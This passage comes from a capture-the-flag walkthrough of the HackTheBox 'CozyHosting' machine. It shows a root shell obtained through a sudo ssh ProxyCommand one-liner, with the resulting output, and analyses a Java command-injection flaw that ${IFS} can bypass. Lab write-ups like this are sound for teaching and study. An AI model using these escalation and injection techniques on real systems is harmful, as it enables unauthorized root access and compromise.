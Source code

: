 # Obtaining user flag

```
josh@cozyhosting:~$ cat /home/josh/user.txt
<user flag>
```

# Privilege Escalation to root
Using ```sudo -l```, we realize that josh is able to execute ```SSH``` with root permissions

```
josh@cozyhosting:~$ sudo -l
[sudo] password for josh: 
Matching Defaults entries for josh on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User josh may run the following commands on localhost:
    (root) /usr/bin/ssh *
```

Using GTFOBins, we realize that we are able to spwan an interactive root shell using ```sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x```

```
josh@cozyhosting:~$ sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
# id
uid=0(root) gid=0(root) groups=0(root)
# 
```

# Obtaining root flag
```
# cat /root/root.txt
<root flag>
```
# Analyzing OS command injection
In the htb.cloudhosting.compliance.ComplianceService.java code, we are able to find the line that cause the vulnerability. In the line below, the script executes a bash command ```/bin/bash -c "ssh -o ConnectTimeout=1 <username>@<host>"```

```
Process process = Runtime.getRuntime().exec(new String[]{"/bin/bash", "-c", String.format("ssh -o ConnectTimeout=1 %s@%s", username, host)});
```

However, before executing the bash command the script will first validate the host and the username that we have supplied. For the host validation, it is much more difficult to execute an OS command injection as it goes through a very strict regex matching. On the other hand, it is much easier for the username parameter as it merely just checks if the username contains whitespace. We can also easily bypass the whitespace validation using ```${IFS}```
